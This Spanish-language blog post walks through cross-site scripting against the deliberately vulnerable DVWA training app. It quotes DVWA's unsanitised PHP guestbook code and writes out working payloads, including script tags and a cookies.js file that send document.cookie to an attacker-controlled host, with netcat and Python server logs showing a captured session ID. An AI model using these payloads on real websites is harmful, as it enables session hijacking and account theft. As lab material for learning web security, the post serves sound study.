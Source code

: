 ```yaml
---
layout: post
title: XSS - CookieHijacking
subtitle: XSS - CookieHijacking
tags: [xss,dvwa]
---
```


## XSS stored (almacenado)

Significa, simplificando los términos que el codigo inyectado se almacena en el mismo código fuente de la aplicación principal, aunque el objetivo final son los usuarios que visitan la página y no la aplicación.

![xss](../assets/imgs/xss/xss.png)

**Código vulnerable**  
Se puede observar que la información se carga directamente el la Base de Datos sin ningun procesamiento

`striplashes`: quita las barras de un string con comillas escapadas

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

----

## XSS reflected (no persistente)

No almacenan el código malicioso en el servidor sino que lo pasan y presentan directamente a la víctima. Es el métido mas popular de ataque XSS. El ataque se lanza desde una fuente externa, mediante email o un sitio de terceros.

![xss2](../assets/imgs/xss/xss2.png)

![xss3](../assets/imgs/xss/xss3.png)

----

## XSS DOM

Es un tipo especial de XSS reflected. Es una vulnerabilidad basada en el modelo de objetos de documentos DOM. Su activación no necesita pasar por un lado del servidor, es decir, la defensa en el lado del servidor no funciona.

Url payload

```
http://192.168.0.103/dvwa/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(document.cookie)%3C/script%3E
http://192.168.0.103/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

![xss4](../assets/imgs/xss/xss4.png)

Inspeccionando el código

![inspector](../assets/imgs/xss/inspector.png)

----

## Cookie hijacking

Payload: `<script>document.location='http://192.168.0.107:8000/test?cookie='+document.cookie</script>`

```
❯ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.107] 40620
GET /test.php?cookie=security=low;%20s_fid=38801F54C8A2AFA3-0BB2579458D0B535;%20PHPSESSID=37khjhpnjgi2sva8g536mqk7hn HTTP/1.1
Host: 192.168.0.107:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.103/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F192.168.0.107%3A8000%2Ftest.php%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 14 Oct 2021 05:50:36 GMT
```

Haciendo uso de JavaScript

Payload: `<script src="http://192.168.0.107:8000/cookies.js"></script>`

![xss5](../assets/imgs/xss/xss5.png)

Contenido de `cookies.js`

```
function cookies(){
    var img = document.createElement('img');
    img.src = "http://192.168.0.107:8000/" + document.cookie;
docuemnt.body.appendChild(img);
}
cookies();
```

Servidor local con python

```
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.0.107 - - [14/Oct/2021 01:07:03] "GET /cookies.js HTTP/1.1" 200 -
192.168.0.107 - - [14/Oct/2021 01:07:03] code 404, message File not found
192.168.0.107 - - [14/Oct/2021 01:07:03] "GET /security=low;%20s_fid=38801F54C8A2AFA3-0BB2579458D0B535;%20PHPSESSID=37khjhpnjgi2sva8g536mqk7hn HTTP/1.1" 404 -
```
